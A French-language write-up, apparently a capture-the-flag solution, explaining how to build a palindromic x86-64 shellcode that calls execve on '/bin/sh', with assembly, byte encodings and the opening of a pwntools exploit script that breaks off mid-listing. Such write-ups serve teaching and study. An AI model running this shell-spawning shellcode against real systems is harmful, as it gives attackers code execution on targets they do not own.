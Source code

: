 ```assembly
push rax
push rbx
push rsp
pop rdi
mov al,59
mov cx,0x48b9
```

est encodée ainsi:

`50 53 54 5f b0 3b 66 b9 b9 48`

soit exactement 10 octets.

maintenant si nous ajoutons l'instruction `mov rcx,0x5053545fb03b66b9` à la suite de cette séquence, dans la valeur de `rcx` nous avons inclus les valeurs des 6 opcodes précédents le `mov cx, 0x48b9`.

nous obtenons:

`50 53 54 5f b0 3b 66 b9 b9 48  | 48 b9 b9 66 3b b0 5f 54 53 50` 

on peut voir que les 10 octets de gauche et de droite sont le reflet inversé l'un de l'autre.. et nous obtenons donc bien un palindrome, qui peut être exécuté dans les deux sens..

la valeur de `rcx`, ne nous gêne pas pour l'`execve` et sera ignorée, et nous pouvons exécuter des instructions avant le `mov cx,0x48b9`,  qui doivent être encodées dans les 6 opcodes disponibles.

pour rajouter des blocs de 6 opcodes,  en établissant le symbole '`|`' comme centre de gravité de notre palindrome,

nous pouvons rajouter un autre blocs de 6 opcodes suivi d'un `mov cx, 0x48b9` au début à gauche, et son reflet inversé à la fin à droite.. et nous aurons toujours un palindrome.

Nous pouvons repéter ce processus autant de fois que nécessaire, jusqu'a ce que tout les registres soient initialisés..

pour que rdi pointe sur la chaine "`/bin/sh`" qui fait 8 octets (et donc ne rentre pas dans les 6 opcodes disponibles),

nous allons recréer la chaine "`/bin/sh`" dans le registre `rbx`, via cette séquence d'instruction repétée 8 fois.. (7 en fait , le zéro est déjà dans rbx)

```assembly
mov bl,val
shl rbx,8
```

qui est encodé en 6 opcodes:

`b1 <val> 48 c1 e1 08`

ensuite le registre `rbx` sera sauvegardé sur la pile, et nous copierons la valeur de `rsp`, vers `rdi` pour qu'il pointe sur '`/bin/sh`',

comme dans la première séquence d'instructions:

voilà donc l'exploit avec le  shellcode palindrome final:

```python
from pwn import *
import binascii

context.update(arch="amd64", os="linux")

shellc = asm('''
  mov bl,0x68
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x73
  shl rbx,8
  mov cx,0x48b9
```